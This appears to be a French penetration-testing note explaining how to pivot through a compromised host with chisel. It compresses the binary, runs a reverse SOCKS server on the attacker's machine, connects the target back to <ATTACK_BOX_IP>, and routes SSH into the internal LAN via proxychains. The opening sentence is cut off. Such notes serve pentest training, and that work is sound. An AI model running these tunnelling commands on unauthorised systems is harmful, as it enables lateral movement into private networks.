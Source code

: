 ```yaml
---
public: true # set to true to make the article publishable
---
```

C'est le principe d'utiliser une machine compromise pour relayer notre attaque vers 

## Installation et réduction de la taille

```shell
git clone https://github.com/jpillora/chisel.git
cd chisel
# stripping
go build -ldflags="-s -w"  # réduction de 10 Mo à 6 Mo
# sinon "static linking" (rend plus portable mais plus gros)
go build -gccgoflags="-s -w --static"
# compression
upx brute chisel # réduction de 6 à 1.5Mo
```

### Attackbox 

On commence par lancer un serveur sur notre machine (on veut que le client chisel se connecte à nous car en général les connexions sortantes sont autorisées mais pas le contraire. C'est un peu l'équivalent du côté "reverse" d'un reverse shell)

```
chisel server -p 443 --reverse
```

### Cible

On lance chisel en mode client (pour qu'il se connecte à notre serveur).
Une fois lancé, on souhaite qu'il exécute un serveur socks5.
En principe, un serveur socks s'exécute côté serveur, mais dans notre cas, on souhaite que le serveur socks s'exécute sur notre cible (donc côté client). 
On utilisera pour ce faire le `R` qui signifit "reverse" pour inverser le sens du tunnel.
On aura donc un serveur socks qui s'exécutera sur notre client et qui sera accessible depuis notre serveur sur un port qui, par défaut, sera le 1080.

```
# écoutera sur le port par défaut (1080) du serveur (attaquant) 
chisel client <ATTACK_BOX_IP>:443 R:socks

# si on souhaite modifier le port par défaut :
chisel client <ATTACK_BOX_IP>:443 R:socks:1234

```

## Utilisation

On se connectera en utlisant `proxychain`.
On commence par modifier le fichier de configuration `/etc/proxychains4.conf` et ajouter à la fin la section :

```
[ProxyList]
socks5 127.0.0.1 1080
# on peut éventuellement chainer les proxy socks sur lesquels rebondir en ajouter d'autres lignes à la suite
```

Une fois configuré, il ne reste plus qu'à préfixer nos commandes favorites de `proxychain` :

```
# Connexion SSH via le tunnel socks
proxychains ssh user@<IP_HOTE_ACCESSIBLE_DANS_LE_LAN_DE_NOTRE_CIBLE>
```
